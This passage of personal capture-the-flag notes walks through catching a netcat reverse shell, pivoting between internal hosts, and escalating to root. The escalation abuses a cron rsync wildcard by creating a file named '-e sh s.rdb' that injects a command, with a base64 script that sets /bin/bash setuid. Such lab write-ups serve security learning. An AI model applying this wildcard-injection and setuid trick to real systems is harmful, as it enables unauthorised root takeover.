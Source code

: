 ```bash
nc -nlvp 9003
```
And if all works, we receive a connection.
![[Pasted image 20250418170949.png]]
now we are in `172.19.0.4` 
![[Pasted image 20250418171613.png]]
but found another host. `172.20.0.3`

If we search in `/etc/cron.d` folder we find a [[cron]] task active.
![[Pasted image 20250418172122.png]]
backup.sh:
```bash
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```
basically, `cron` task send all all files with `.rdb` extension to [[rsync]] server.
We can approach the [[Wildcards|Wildcard]] `*` search `rsync` in `GTFObins` https://gtfobins.github.io/gtfobins/rsync/#shell we found a way to get a shell with.

![[Pasted image 20250418173633.png]]
basically:
```bash
rsync -e 'sh -c "command_to_execute"' 127.0.0.1:/dev/null
```

so let's try [[setuid]] to `/bin/bash`
first create a little script realize that for us

```bash
#!/bin/bash
chmod 4755 /bin/bash
```
send to folder with [[base64]]

and create the file that execute that
```bash
touch -- '-e sh s.rdb'
```

so
```bash
touch -- '-e sh s.rdb' && echo IyEvYmluL2Jhc2gKCmNobW9kIDQ3NTUgL2Jpbi9iYXNoCg== | base64 -d > s.rdb
```

and with `bash -p` we're `root`. now we have allowed use `ping`
trying send `icmp` packet to backup rsync server got this:
![[Pasted image 20250418180308.png]]
that is another host different of founded before but are in the same segment.

Now, we can look up the `backup` [[rsync]] server.

```bash
rsync rsync://172.20.0.2
```

((((( vulnerable with cron tasks )))))

blah blah killer instinct

check mounts [[df]]